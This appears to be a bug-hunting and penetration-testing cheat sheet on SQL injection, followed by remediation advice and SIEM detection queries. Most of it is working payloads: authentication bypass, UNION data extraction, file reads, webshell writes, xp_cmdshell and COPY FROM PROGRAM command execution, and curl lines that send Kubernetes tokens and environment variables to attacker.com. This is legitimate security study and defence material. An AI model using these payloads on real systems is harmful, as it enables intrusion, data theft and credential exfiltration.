

# SQL Injection

## Shortcut

- Map any of the application endpoints that takes in user input
- Insert test payload into these locations to discover whether they're vulnerable to SQL injections. if the input isn't vulnerable to classic SQL injections, try inferential techniques instead.
- Use different SQL injection queries to extract information from the database.
- Escalate the issue, try to expand your foothold.

## Mechanisms

SQL Injection (SQLi) is a code injection technique that exploits vulnerabilities in applications that dynamically construct SQL queries using user-supplied input. When successful, attackers can:

- Bypass authentication
- Access sensitive data
- Modify database data
- Execute administrative operations
- Potentially achieve remote code execution

SQLi occurs when applications fail to properly validate, sanitize, or parameterize user input before incorporating it into SQL queries. The vulnerability exists in various forms:

### Types of SQL Injection

- **Error-based**: Extract data by forcing the database to generate error messages containing sensitive information
- **Union-based**: Leverage the UNION operator to combine results from the original query with those from an injected query
- **Boolean-based blind**: Infer information by observing whether query results differ based on injected Boolean conditions
- **Time-based blind**: Deduce information by observing timing differences in responses when conditional time-delay functions are injected
- **Out-of-band**: Extract data through alternative communication channels (DNS, HTTP requests)
- **Second-order**: Occurs when user input is stored and later used unsafely in SQL queries
- **Stored procedures**: Targeting vulnerable database stored procedures
- **JSON‑based**: Abuse JSON operators/functions (->, ->>, JSON_EXTRACT, JSON_TABLE) to inject conditions or extract data where traditional syntax is filtered
- **WebSocket-based**: SQL injection through WebSocket message payloads
- **REST API Filter/Sort**: Injection via JSON filter and sort parameters that translate to SQL
- **HTTP/2 Header Smuggling**: Bypassing WAFs via header manipulation before SQL payload delivery



### Database Targets

SQLi affects virtually all major database systems:

- MySQL/MariaDB
- Microsoft SQL Server
- PostgreSQL
- Oracle
- SQLite
- IBM DB2
- NoSQL databases (MongoDB, Cassandra, etc.)

## Hunt

### Recon Workflow

- Using Burpsuite:
  - Capture request in Burpsuite
  - Send to active scanner
  - Review SQL vulnerabilities detected
  - Manually verify findings
  - Use SQLMAP for deeper exploitation
- Using automation tools:
  - sublist3r -d target | tee -a domains
  - cat domains | httpx | tee -a alive
  - cat alive | waybackurls | tee -a urls
  - gf sqli urls >> sqli
  - sqlmap -m sqli --dbs --batch
- Hidden parameter discovery:
  - Gather URLs using hakrawler/waybackurls/gau
  - Use Arjun to scan for hidden parameters
  - Test discovered parameters for SQL injection

### Identification Techniques

#### Parameter Testing

- Test all input vectors: URL parameters, form fields, cookies, HTTP headers
- Insert basic SQL syntax characters to provoke errors:
  ```
  ' " ; -- /* */ # ) ( + ,
  ```
- Test single and double quote placement in different contexts:
  ```
  ' OR '1'='1
  " OR "1"="1
  ```
- Use SQLi polyglots (work in multiple contexts):
  ```
  SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
  ```

#### Error-Based Detection

- Look for database error messages that reveal:
  - SQL syntax errors
  - Database type and version
  - Table/column names
  - Query structure
- Common error-triggering payloads:
  ```
  '
  ''
  `
  "
  ""
  ,
  %
  \
  ```

#### Blind Detection

- Boolean-based tests (observe differences in responses):
  ```sql
  ' OR 1=1 --
  ' OR 1=2 --
  ' AND 1=1 --
  ' AND 1=2 --
  ```
- Time-based tests (observe response timing):

  ```sql
  MySQL: ' OR SLEEP(5) --
  PostgreSQL: ' OR pg_sleep(5) --
  MSSQL: ' WAITFOR DELAY '0:0:5' --
  Oracle: '; BEGIN DBMS_LOCK.SLEEP(5); END; --

  ```

- JSON operator probes (MySQL/Postgres):

  ```sql
  # MySQL JSON
  id=1 AND JSON_EXTRACT('{"a":1}', '$.a')=1
  # Postgres JSONB
  id=1 AND '{"a":1}'::jsonb ? 'a'
  ```

### Advanced Testing Approaches

#### Mapping Database Structure

1. Determine database type:

   ```sql
   ' UNION SELECT @@version -- (MySQL/MSSQL)
   ' UNION SELECT version() -- (PostgreSQL)
   ' UNION SELECT banner FROM v$version -- (Oracle)
   ```

2. Enumerate tables:

   ```sql
   # MySQL/MSSQL
   ' UNION SELECT table_name,1 FROM information_schema.tables --

   # PostgreSQL
   ' UNION SELECT table_name,1 FROM information_schema.tables --

   # Oracle
   ' UNION SELECT table_name,1 FROM all_tables --
   ```

3. Enumerate columns:

   ```sql
   # MySQL/MSSQL/PostgreSQL
   ' UNION SELECT column_name,1 FROM information_schema.columns WHERE table_name='users' --

   # Oracle
   ' UNION SELECT column_name,1 FROM all_tab_columns WHERE table_name='USERS' --
   ```

4. GraphQL → SQLi pivot

```
# Try introspection disabled? Send crafted filter/order inputs
{"query":"query{ users(filter: \"' OR 1=1 --\"){ id email }}"}
```

5. WebSocket SQLi detection

```javascript
// Connect to WebSocket endpoint
const ws = new WebSocket("wss://target.com/api/search");
ws.send('{"action":"search","query":"test\\\' OR 1=1--"}');
// Observe response for SQL errors or data leakage
```

6. REST API Filter Injection

```json
// Modern APIs often accept complex filters
POST /api/users/search
{
  "filter": {
    "name": {"$regex": "admin' OR 1=1--"},
    "status": "active"
  },
  "sort": "name'; DROP TABLE users--"
}
```

7. ORM/Query Builder pitfalls (examples)

```
// Sequelize (Node): avoid string concatenation; use replacements/bind
sequelize.query('SELECT * FROM users WHERE name = :name', { replacements: { name: user }, type: QueryTypes.SELECT })

// Prisma (Node): prefer parameterized $queryRaw vs $executeRawUnsafe
await prisma.$queryRaw`SELECT * FROM users WHERE name = ${user}`

// Knex
knex('users').whereRaw('name = ?', [user])
```

## Bypass Techniques

### WAF Bypass

- Case variation: `SeLeCt`, `UnIoN`
- Comment injection: `UN/**/ION SE/**/LECT`
- Alternate encodings:
  - URL encoding: `UNION` → `%55%4E%49%4F%4E`
  - Hex encoding: `SELECT` → `0x53454C454354`
  - Unicode encoding
- Whitespace manipulation: `UNION/**/SELECT`
- Numeric representations:
  - `1` → `1-0`, `1+0`, `CHAR(49)`
- String concatenation:
  - MySQL: `CONCAT('a','b')`
  - Oracle: `'a'||'b'`
  - MSSQL: `'a'+'b'`
- Null byte injection:
  ```
  %00' UNION SELECT password FROM Users WHERE username='xyz'--
  ```
- Double encoding:
  ```
  First pass: / → %2f
  Second pass: %2f → %252f
  ```
- Using SQLMAP tamper scripts:
  - Use Atlas tool for suggesting tamper scripts
  - Try multiple tamper scripts in combination
  - Customize tamper scripts for specific WAFs
- **JSON operator wrapper**: Prefix payload with dummy JSON (`/**/{"a":1}`) so that WAFs parse request as JSON and miss the subsequent SQL keywords
- HTTP/2 request smuggling and path normalization can sometimes bypass perimeter WAFs; replay payloads over different schemes (h2/h2c) and proxies

## Vulnerabilities

### Common SQL Injection Points

#### Direct Query Manipulation

- **Login Bypass**:
  ```
  username=' OR 1=1 --
  ```
- **Data Extraction**:
  ```
  ' UNION SELECT username,password FROM users --
  ```
- **Blind Data Extraction**:
  ```
  ' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a
  ```

#### Indirect Query Vulnerabilities

- **Second-Order Injection**: Input is sanitized during initial storage but used unsafely in subsequent queries
- **ORM-Layer Injection**: Vulnerabilities in the Object-Relational Mapping layer
- **Dynamic Query Construction**: Queries built by concatenating strings with user input
- **Insufficient Input Sanitization**: Improper filtering of special characters
- **Query Format String Vulnerabilities**: Using string formatting functions to construct queries
- **GraphQL Injection**: Resolver strings constructed unsafely from GraphQL arguments leading to backend SQL execution
- **WebSocket Parameter Injection**: Real-time communication channels passing unvalidated data to SQL queries
- **Cloud Function/Serverless Injection**: Lambda/Cloud Function SQL queries with improper input validation

### Database-Specific Vulnerabilities

#### MySQL/MariaDB

- **Information Leakage**:
  ```
  ' UNION SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' --
  ```
- **File Access**:
  ```
  ' UNION SELECT LOAD_FILE('/etc/passwd') --
  ```
- **File Writing**:
  ```
  ' UNION SELECT 'shell code' INTO OUTFILE '/var/www/html/shell.php' --
  ```

#### MSSQL

- **Command Execution**:
  ```
  '; EXEC xp_cmdshell 'net user' --
  ```
- **Registry Access**:
  ```
  '; EXEC xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion','ProductName' --
  ```
- **Linked Servers Access**:
  ```
  '; EXEC ('SELECT * FROM OPENROWSET(''SQLOLEDB'',''Server=linked_server;Trusted_Connection=yes'',''SELECT 1'')') --
  ```

#### PostgreSQL

- **File Access**:
  ```
  ' UNION SELECT pg_read_file('/etc/passwd',0,1000) --
  ```
- **Command Execution**:
  ```
  '; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'id'; SELECT * FROM cmd_exec; --
  ```
- **Container Escape** (in Kubernetes/Docker environments):

  ```sql
  -- Exfiltrate service account tokens
  '; COPY (SELECT '') TO PROGRAM 'curl http://attacker.com/$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)'; --

  -- Read container environment variables
  '; COPY (SELECT '') TO PROGRAM 'curl http://attacker.com/?data=$(env|base64)'; --
  ```

#### Oracle

- **Privilege Escalation**:
  ```
  ' UNION SELECT * FROM SYS.USER_ROLE_PRIVS --
  ```
- **PL/SQL Execution**:
  ```
  ' BEGIN DBMS_JAVA.RUNJAVA('java.lang.Runtime.getRuntime().exec(''cmd.exe /c dir'')'); END; --
  ```

### NoSQL Injection

- **MongoDB Operators**:
  ```
  username[$ne]=admin&password[$ne]=
  username[$regex]=^adm&password[$regex]=^pass
  ```
- **Operator Injection**:
  ```
  {"$where": "sleep(5000)"}
  {"username": {"$in": ["admin"]}}
  ```

### Graph Databases (Neo4j/Cypher)

- **Cypher Injection Example**
  ```sql
  MATCH (u:User) WHERE u.name = 'admin' RETURN u
  ```
  can be abused with `admin' OR 1=1 //--` to bypass conditions.
- **CVE‑2024‑34517**: Older Neo4j 5.x allowed privilege escalation via IMMUTABLE procedures; ensure your target is ≥ 5.18 or 4.4.26.

## Chaining and Escalation

### Cloud-Specific SQL Injection

#### Serverless/Lambda Environments

- **Connection Pool Poisoning**:

  ```javascript
  // Lambda functions reusing database connections
  // Attacker can poison connection state
  exports.handler = async (event) => {
    // Vulnerable: SET ROLE is persistent across invocations
    await db.query(`SET ROLE '${event.role}'`);
    return await db.query("SELECT * FROM sensitive_data");
  };
  ```

- **AWS RDS Proxy Bypass**:

  ```sql
  -- Bypass RDS Proxy connection limits
  '; CALL mysql.rds_kill(CONNECTION_ID()); --
  ```

- **Azure SQL Managed Instance**:

  ```sql
  -- Exploit managed instance features
  '; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
  '; EXEC xp_cmdshell 'az vm list'; --
  ```

- **GCP Cloud SQL**:
  ```sql
  -- Access Cloud SQL metadata
  ' UNION SELECT @@global.version_comment, @@hostname --
  ```

#### Cloud Metadata Access via SQLi

- **AWS IMDSv2** (requires token, harder via SQLi):

  ```sql
  -- Older IMDSv1 still works in legacy environments
  ' UNION SELECT LOAD_FILE('http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name') --
  ```

- **Azure Instance Metadata**:
  ```sql
  ' UNION SELECT LOAD_FILE('http://169.254.169.254/metadata/instance?api-version=2021-02-01') --
  ```

### Supply Chain & Dependency Risks

#### ORM CVE Tracking (2024-2025)

- **Sequelize** CVE-2023-22578: SQL injection in JSON queries

  ```javascript
  // Vulnerable pattern
  User.findAll({
    where: sequelize.literal(`name = '${userInput}'`),
  });
  ```

- **TypeORM** < 0.3.12: findOne vulnerable to injection

  ```typescript
  // Vulnerable
  repository.findOne({ where: `id = ${id}` });
  ```

- **Hibernate 6.x**: Query cache poisoning

  ```java
  // Unsafe HQL construction
  session.createQuery("FROM User WHERE name = '" + input + "'");
  ```

- **Prisma** < 4.11: Raw query vulnerabilities
  ```typescript
  // Vulnerable
  await prisma.$executeRawUnsafe(`SELECT * FROM users WHERE id = ${id}`);
  ```

#### CI/CD Pipeline SQLi

- Database migration scripts with unvalidated variables
- Terraform/Pulumi infrastructure code generating SQL
- GitHub Actions workflows with SQL execution steps

## Methodologies

### Tools

#### Automated SQLi Detection & Exploitation

- **SQLmap 1.8+**: Now detects JSON‑based, GraphQL, and WebSocket SQLi automatically, plus smarter tamper chaining
- **GraphQLmap**: CLI tool for fuzzing and exploiting GraphQL resolver injections
- **NoSQLMap**: NoSQL database testing
- **Burp Suite Professional**: Enhanced SQL injection scanner with ML-based detection
- **Ghauri**: Advanced blind SQL injection tool (faster than SQLmap for time-based)
- **SQLiScanner**: Automated CI/CD integration for SQLi testing

#### Manual Testing Tools

- **Burp Suite**: Request manipulation and testing
- **OWASP ZAP**: Traffic interception and testing
- **FuzzDB/SecLists**: Attack payload collections
- **Havij**: Automated SQL injection tool with GUI
- **wscat**: WebSocket testing for SQLi in real-time connections
- **Postman/Insomnia**: API endpoint testing with GraphQL support

### Testing Methodology

#### Reconnaissance Phase

1. **Identify Entry Points**:
   - Map all user input parameters
   - Check HTTP POST/GET parameters
   - Examine cookies and HTTP headers
   - Review hidden form fields
   - Analyze API endpoints

2. **Determine Database Type**:
   - Observe error messages
   - Test database-specific syntax
   - Check HTTP headers and response patterns

#### Exploitation Phase

1. **Initial Testing**:

   ```sql
   # Test for errors
   parameter=test'
   parameter=test"
   parameter=test`

   # Boolean tests
   parameter=test' OR '1'='1
   parameter=test' AND '1'='2

   # UNION tests
   parameter=test' UNION SELECT 1-- -
   parameter=test' UNION SELECT 1,2-- -
   parameter=test' UNION SELECT 1,2,3-- -
   ```

2. **UNION Attack Technique**:

   ```sql
   # Find the number of columns
   ' UNION SELECT NULL-- -
   ' UNION SELECT NULL,NULL-- -
   ' UNION SELECT NULL,NULL,NULL-- -

   # Identify string columns
   ' UNION SELECT 'a',NULL,NULL-- -
   ' UNION SELECT NULL,'a',NULL-- -
   ' UNION SELECT NULL,NULL,'a'-- -

   # Extract data
   ' UNION SELECT username,password,NULL FROM users-- -
   ```

3. **Blind SQLi Exploitation**:

   ```sql
   # Boolean-based
   ' AND (SELECT SUBSTRING(username,1,1) FROM users LIMIT 0,1)='a'-- -

   # Time-based
   ' AND (SELECT CASE WHEN (username='admin') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users)-- -
   ```

4. **Database Enumeration**:
   - Determine database version
   - Extract table names
   - Extract column names
   - Extract data

5. **Privilege Escalation**:
   - Identify database user permissions
   - Access sensitive tables
   - Attempt file system access
   - Try command execution

### Cheatsheets by Database

#### MySQL

```sql
# Version
SELECT @@version

# Comments
-- Comment
# Comment
/*Comment*/

# String Concatenation
CONCAT('a','b')

# Substring
SUBSTRING('abc',1,1)

# Conditional
IF(1=1,'true','false')

# Time Delay
SLEEP(5)

# Data Sources
information_schema.tables
information_schema.columns
```

#### MSSQL

```sql
# Version
SELECT @@version

# Comments
-- Comment
/*Comment*/

# String Concatenation
'a'+'b'

# Substring
SUBSTRING('abc',1,1)

# Conditional
CASE WHEN 1=1 THEN 'true' ELSE 'false' END

# Time Delay
WAITFOR DELAY '0:0:5'

# Data Sources
information_schema.tables
information_schema.columns
sys.tables
sys.columns
```

#### Oracle

```sql
# Version
SELECT banner FROM v$version

# Comments
-- Comment
/*Comment*/

# String Concatenation
'a'||'b'

# Substring
SUBSTR('abc',1,1)

# Conditional
CASE WHEN 1=1 THEN 'true' ELSE 'false' END

# Time Delay
DBMS_PIPE.RECEIVE_MESSAGE('RDS',5)

# Data Sources
all_tables
all_tab_columns
```

#### PostgreSQL

```sql
# Version
SELECT version()

# Comments
-- Comment
/*Comment*/

# String Concatenation
'a'||'b'

# Substring
SUBSTRING('abc',1,1)

# Conditional
CASE WHEN 1=1 THEN 'true' ELSE 'false' END

# Time Delay
pg_sleep(5)

# Data Sources
information_schema.tables
information_schema.columns
```

## Remediation Recommendations

- **Prepared Statements/Parameterized Queries**:

  ```java
  // Unsafe
  String query = "SELECT * FROM users WHERE username = '" + username + "'";

  // Safe (Java PreparedStatement)
  PreparedStatement stmt = conn.prepareStatement("SELECT * FROM users WHERE username = ?");
  stmt.setString(1, username);
  ```

- **PHP PDO note:** When using PDO you must disable emulated prepares,Otherwise parameters are substituted client‑side and JSON operators can still be injectable.

  ```php
  $pdo->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);
  ```

- **ORM Frameworks**: Use secure ORM frameworks with proper parameter binding
- **Input Validation**: Server-side validation with strong type checking
- **Stored Procedures**: Use properly coded stored procedures
- **Least Privilege**: Restrict database account permissions
- **WAF Implementation**: Deploy a web application firewall
- **Error Handling**: Prevent detailed error messages from being displayed to users
- **Database Activity Monitoring (DAM)**: Track and alert on suspicious database activity
  - Tools: Imperva DAM, IBM Guardium, Oracle Audit Vault
  - Cloud-native: AWS RDS Enhanced Monitoring, Azure SQL Auditing, GCP Cloud SQL Insights
- **Runtime Application Self-Protection (RASP)**: Detect and block SQLi at runtime
  - Tools: Contrast Security, Sqreen (Datadog), Hdiv Security
- **ML-based WAF**: Modern WAF with machine learning detection
  - Cloudflare WAF (ML rules)
  - AWS WAF Fraud Control Account Takeover Prevention
  - Signal Sciences (Fastly)
- **Row-Level Security (RLS)**: Enforce per-tenant/user data access in the database layer
- **Outbound controls**: Block DB servers from making outbound DNS/HTTP to limit OOB exfiltration
  - Implement egress filtering in security groups/firewalls
  - Use private subnets for database instances
- **Strong typed parameters**: For JSON/ARRAY params ensure explicit casts (e.g., `$1::jsonb`) to avoid operator confusion
- **API Gateway Schema Validation**: Enforce strict input validation at gateway level
  - AWS API Gateway Request Validators
  - Kong Request Validator plugin
  - Apigee JSON Threat Protection
- **Query Monitoring & Anomaly Detection**:
  ```python
  # Example: Monitor for suspicious patterns
  if re.search(r"(UNION|SELECT|INSERT|UPDATE|DELETE).*--", query, re.IGNORECASE):
      alert_security_team()
      block_request()
  ```
- **Container Security Context**: For containerized databases
  ```yaml
  # Kubernetes: Restrict service account access
  automountServiceAccountToken: false
  securityContext:
    readOnlyRootFilesystem: true
    runAsNonRoot: true
  ```

### Detection & Monitoring

#### SIEM/Log Analysis Queries

**Splunk:**

```spl
index=web sourcetype=access_combined
| regex _raw="(%27)|(\\')|(\\-\\-)|((%3D)|(=))[^\\n]*((%27)|(\\')|(\\-\\-)|(\\%3D))"
| eval suspected_sqli=if(match(_raw, "(?i)(union|select|insert|update|delete|drop|create|alter|exec|execute)"), "high", "low")
| where suspected_sqli="high"
| table _time, src_ip, uri, user_agent, status
```

**ELK/OpenSearch:**

```json
{
  "query": {
    "bool": {
      "should": [
        {
          "regexp": { "request.uri": ".*(union|select|insert|update|delete).*" }
        },
        { "match": { "request.body": "' OR 1=1" } }
      ]
    }
  }
}
```

**CloudWatch Insights (AWS RDS):**

```
fields @timestamp, @message
| filter @message like /(?i)(UNION|SELECT.*FROM|INSERT INTO|UPDATE.*SET|DELETE FROM)/
| filter @message like /(%27|'|--|\\/\\*)/
| stats count() by bin(5m)
```

### HTTP/2 & HTTP/3 Considerations

- **HPACK/QPACK Header Compression**: May alter detection patterns

  ```
  # HTTP/2 header compression can obfuscate payloads
  :path: /api/user?id=1%20UNION%20SELECT
  # Appears different after decompression
  ```

- **Request Smuggling to SQLi**:

  ```http
  POST /api/user HTTP/2
  Content-Length: 100
  Transfer-Encoding: chunked

  0

  POST /api/admin HTTP/1.1
  Content-Length: 50

  id=1' OR '1'='1
  ```

- **HTTP/3 QUIC Protocol**: Test SQLi over different protocols
  ```bash
  # Use curl with HTTP/3 support
  curl --http3 "https://target.com/api?id=1' UNION SELECT--"
  ```

### Compliance & Regulatory Context

- **PCI DSS 4.0**: Requirement 6.2.4 mandates protection against injection attacks
- **OWASP ASVS 4.0**: V5.3.4 requires parameterized queries or stored procedures
- **ISO 27001:2022**: A.8.22 web filtering control
- **NIST 800-53**: SI-10 Information Input Validation
- **SOC 2 Type II**: Common Criteria CC6.1 (Logical Access Controls)

### Threat Intelligence Integration

- **CISA KEV Catalog**: Monitor for actively exploited SQL injection CVEs
- **MITRE ATT&CK**: T1190 (Exploit Public-Facing Application)
- **exploit-db.com**: Track recent SQLi PoC releases
- **GitHub Security Advisories**: Monitor ORM/framework CVEs
  ```bash
  # Automated monitoring
  gh api /advisories --jq '.[] | select(.summary | contains("SQL injection"))'
  ```
